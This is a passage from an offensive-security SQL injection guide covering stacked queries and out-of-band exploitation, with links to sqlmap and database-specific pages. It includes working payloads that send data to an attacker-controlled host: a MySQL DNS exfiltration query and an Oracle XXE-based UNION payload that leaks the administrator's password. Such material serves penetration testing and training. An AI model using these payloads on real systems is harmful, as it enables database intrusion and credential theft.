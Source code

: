 You can use stacked queries to **execute multiple queries in succession**. Note that while the subsequent queries are executed, the **results** are **not returned to the application**. Hence this technique is primarily of use in relation to **blind vulnerabilities** where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

**Oracle** doesn't support **stacked queries.** **MySQL, Microsoft** and **PostgreSQL** support them: `QUERY-1-HERE; QUERY-2-HERE`

## Out of band Exploitation
---

If **no-other** exploitation method **worked**, you may try to make the **database ex-filtrate** the info to an **external host** controlled by you. For example, via DNS queries:

```sql
select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));
```

<br>

### Out of band data exfiltration via XXE
---

```sql
a' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.hacker.site/"> %remote;]>'),'/l') FROM dual-- -
```

## Automated Exploitation
---

Check the [SQLMap Cheatsheet](sqlmap/index.html) to exploit a SQLi vulnerability with [**sqlmap**](https://github.com/sqlmapproject/sqlmap).

## Tech specific info
---

We have already discussed all the ways to exploit a SQL Injection vulnerability. Find some more tricks database technology dependant in this book:

- [MS Access](ms-access-sql-injection.md)
- [MSSQL](mssql-injection.md)
- [MySQL](mysql-injection/index.html)
- [Oracle](oracle-injection.md)
- [PostgreSQL](postgresql-injection/index.html)

Or you will find **a lot of tricks regarding: MySQL, PostgreSQL, Oracle, MSSQL, SQLite and HQL in** [**https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection**](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

## Authentication bypass
---
